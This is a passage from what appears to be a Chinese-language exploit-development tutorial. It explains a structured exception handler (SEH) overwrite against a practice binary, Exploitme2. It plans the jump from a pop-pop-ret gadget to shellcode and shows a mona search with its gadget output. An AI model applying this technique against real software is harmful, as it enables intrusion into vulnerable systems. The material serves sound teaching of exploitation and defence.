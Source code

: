 执行流为

```shell
触发异常->执行SEH(jmp esp),跳转至栈顶执行->从栈顶开始一串nop滑轨->执行jmp 6，跳过SEH，跳转到shellcode->执行shellcode
```

经过分析，上面这种思路是不可行的，上面我们假设栈顶是`nop`指令，但实际上，我们填充`nop`指令是从 name 处开始的，而在调用`SEH`时，在栈顶和 name 之间有新的数据。

```shell
esp ->	...			其它数据
		...
		name[0...3]	nop
		...			nop
```

也就是说，我们不能将执行流转到栈顶。

#### 不可行思路

当执行seh时，esp的值与shellcode所在地址分别如下：

```
esp : 0x0019f768
shellcode: 0x0019ff68
```

它们之间的差恒为 0x800 ，如果使得SEH指向以下gadget，便能劫持执行流至shellcode：

```
ADD   ESP, 0x800
JMP   ESP
```

但这样的`gadget`很难找。

#### 正确思路

查看栈顶附近的数据，可以发现`esp+8`位置的数据，和`SEH`和`shellcode`所在地址距离很近，可以加以利用。

![ESP+8](../pic/Exploitme-Cookie/ESP+8.png)

也就是说，如果：

```
SEH = jmp esp+8 或 ret esp+8 或 call esp+8 或 pop xx#pop xx#ret(ppt指令)
```

程序执行流在执行完`SEH`后，会去执行 `SEH`地址的前面四个字节，我们可以在这里写入`jmp 6`，从而劫持执行流至`shellcode`。

##### mona搜索ppt指令

- `Exploitme2`中的指令高字节都是0x00，不过程序中使用的是`fread`，不会将`payload`截断。
- `Exploitme2`没开启随机基址，系统重启后，指令依然有效。

```
!py mona findwild -s "pop r32#pop r32#ret" -m Exploitme
```

得到以下结果，我们选用`0x00401a11`：

```
[+] Results : 
0x00401a11 |   0x00401a11 : pop esi # pop ebx # retn | startnull,ascii {PAGE_EXECUTE_READ} [Exploitme.exe] ASLR: False, Rebase: False, SafeSEH: False, CFG: False, OS: False, v-1.0- (Exploitme.exe), 0x8000
...
    Found a total of 8 pointers
```
